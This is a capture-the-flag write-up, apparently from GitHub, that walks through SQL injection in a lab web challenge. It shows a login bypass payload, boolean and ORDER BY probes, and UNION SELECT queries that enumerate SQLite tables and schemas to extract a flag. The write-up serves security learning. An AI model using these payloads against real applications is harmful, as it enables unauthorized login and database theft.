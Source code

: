 ## CHALLENGE: MORE SQLi

<img src ="img/img1.png">

In here, we see the log in page,

<img src ="img/img2.png">

so I think we can use the single quote (') to detect the login form does have SQLi or not.
And we recieved this message

<img src ="img/detect.png">

-> The login page contains SQLi. Use the payload: > ***1' or 1=1--*** to bypass the login form.

<img src = "img/img3.png">

And welcome to the page :))))

<img src = "img/welcome.png">

But I don't see the flag anywhere, so I decide to test the search field.
With the payload:  **Algiers' AND 1=1--** we can see the result still have Algiers.

<img src = "img/img4.png">

And with payload: **Algiers' AND 1=2--** the result don't retune anything.

<img src = "img/img5.png">

-> The search field contains SQLi.
Now we should detect how many column. And with my experience, how many columns you see appear, it is most likely the number of columns you need to find.

<img src = "img/img6.png">

In here, we see that it appear 3 columns, so maybe the number of columns could be 3.
I use the payload: **Algiers' order by 4--** and no result returns -> The column number < 4.

<img src = "img/img7.png">

And with payload: **Algiers' order by 3--** the result returns Algiers -> 3 columns.

<img src = "img/img8.png">

And now, we will extract the information.
In the first time, I think it is the Oracle and try so much payload :)))) And you know what, the hint already said it's sqlite :))) 

I search on github, and found the sqlite cheat sheet injection, base on that, we will get whatever you want
[Payload Page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).
The first thing we extract is how many tables and name of them.
So I use the payload: **Algiers' UNION SELECT (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),NULL, NULL --** 

<img src = "img/img10.png">

And we can see the list tables in the database. Now we want to extract columns in each tables.
the payload: **SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'** help us to do this and we have the payload like this: **Algiers' UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'),NULL, NULL --**
The above payload will extract the columns of **hints** table.

<img src = "img/img11.png">

With a little bit logic, we can guest that the **hints** table has 2 columns ID and info.

You can repeat it until you see the **flag** column.
And you want to extract the value of the column, use this payload: **Algiers' UNION SELECT flag,NULL, NULL from <name_of_the_table> --**

<img src ="img/flag.png">

Congrats, you found the flaggggg.

THANK YOU FOR LEARNING GUYS.
PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY. LUV U <3
